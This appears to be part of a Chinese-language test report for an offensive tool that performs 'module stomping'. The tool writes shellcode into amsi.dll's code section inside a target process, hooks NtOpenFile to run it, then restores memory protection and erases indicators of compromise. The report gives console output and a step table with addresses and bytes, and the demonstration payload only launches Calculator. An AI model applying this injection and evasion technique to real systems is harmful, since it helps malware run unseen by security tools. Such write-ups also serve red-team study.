 ```
[+] Trigger the hooked API (NtOpenFile) in the target process

[?] Press ENTER when you receive a callback to restore memory protection...

[+] Restoring memory protection...
[+] API protection restored (RWX -> RX)

[?] Press ENTER to unload amsi.dll and remove IOCs...
[+] Unloading module amsi.dll...
[+] Module handle: 00007FFB28CF0000
[+] Module unloaded successfully

[+] All IOCs removed!
[+] Module Stomping complete.
```

### 触发执行

程序等待回调后自动按下 Enter：
- 第一次 Enter：恢复内存保护（RWX → RX）
- 第二次 Enter：卸载 amsi.dll 并清除痕迹

### 验证结果

```bash
$ tasklist | grep -i Calculator
CalculatorApp.exe  64644  Console  13  84,228 K
```

**验证成功**: 计算器已启动（PID 64644）

## 测试结果

✅ **测试成功** - Shellcode 通过模块践踏成功执行

### 详细分析

| 步骤 | 状态 | 详情 |
|------|------|------|
| 1. Shellcode 加载 | ✅ 成功 | 106 字节 calc payload |
| 2. 内存分配 | ✅ 成功 | 模块名称 @ 000001AD53890000 |
| 3. 模块加载 | ✅ 成功 | amsi.dll @ 00007FFB28CF0000 |
| 4. .text 节定位 | ✅ 成功 | Base: 00007FFB28CF1000, Size: 53248 字节 |
| 5. 随机偏移生成 | ✅ 成功 | Offset: 0x7775 (30581 字节) |
| 6. RX hole 计算 | ✅ 成功 | 0x00007FFB28CF8775 |
| 7. API 定位 | ✅ 成功 | NtOpenFile @ 0x00007FFB404C3880 |
| 8. 原始字节读取 | ✅ 成功 | 4C 8B D1 B8 33 00 00 00 |
| 9. 内存保护修改 | ✅ 成功 | RX → RWX |
| 10. HookCode 写入 | ✅ 成功 | HookCode + Shellcode 写入 RX hole |
| 11. API Hook | ✅ 成功 | NtOpenFile 前 5 字节 → call 指令 |
| 12. 触发执行 | ✅ 成功 | 自动触发（程序自动按 Enter） |
| 13. Shellcode 执行 | ✅ 成功 | calc.exe 启动 |
| 14. 内存保护恢复 | ✅ 成功 | RWX → RX |
| 15. 模块卸载 | ✅ 成功 | amsi.dll 已卸载 |